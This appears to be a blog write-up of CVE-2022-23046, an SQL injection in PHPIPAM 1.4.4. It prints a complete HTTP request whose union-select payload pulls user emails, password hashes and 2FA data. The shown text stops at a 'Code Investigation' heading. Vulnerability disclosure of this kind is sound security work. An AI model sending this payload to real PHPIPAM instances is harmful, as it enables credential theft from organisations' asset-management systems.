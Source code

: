 ```yaml
---
layout: post
title:  "SQL Injection CVE-2022-23046 - PHPIPAM + Exploit"
date:   2022-01-20 17:12:34 -0300
categories: [hacking,web]
---
```


# CVE-2022-23046 - PHPIPAM

TL;DR

This write up is about a SQL injection which I found 4 days after another researcher reported it :/, however, because of the fact that I haven’t found any write ups or publicly available exploits, I decided to write about it.
Exploit at the end!

PHPIPAM is a software widely used internally by several companies. And by being so, it is relatively common for you to find a running instance to manage IT assets, networks, etc. **1.4.4** is the vulnerable version and a fix has already been made public with the arrival of version **1.4.5**. The request responsible for triggering the SQLi is presented below, but if you want to look at the rest, feel free. 


```tsx
POST /app/admin/routing/edit-bgp-mapping-search.php HTTP/1.1
Host: localhost:8082
Content-Length: 155
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost:8082
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8082/index.php?page=administration&section=routing&subnetId=bgp&sPage=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: phpipam=d963c4505df7e33f17e86f70724ec7bb
Connection: close

subnet=test"union+select(select+concat(@:=0x3a,(select+count(*)from(users)where(@:=concat(@,email,0x3a,password,"0x3a",2fa))),@)),2,3,user()+--+-&bgp_id=1
```

## Code Investigation

